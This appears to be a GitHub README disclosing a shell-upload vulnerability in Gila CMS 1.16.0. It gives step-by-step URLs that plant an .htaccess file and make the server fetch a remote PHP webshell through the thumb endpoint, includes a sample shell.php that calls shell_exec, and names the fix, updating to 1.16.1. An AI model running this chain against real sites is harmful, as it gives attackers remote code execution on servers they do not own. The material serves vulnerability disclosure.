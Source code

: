 # Gila-CMS-1.16.0-shell-upload

Author: jkana
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess**:

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

----
# How to fix

Update to **Gila CMS 1.16.1**
----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

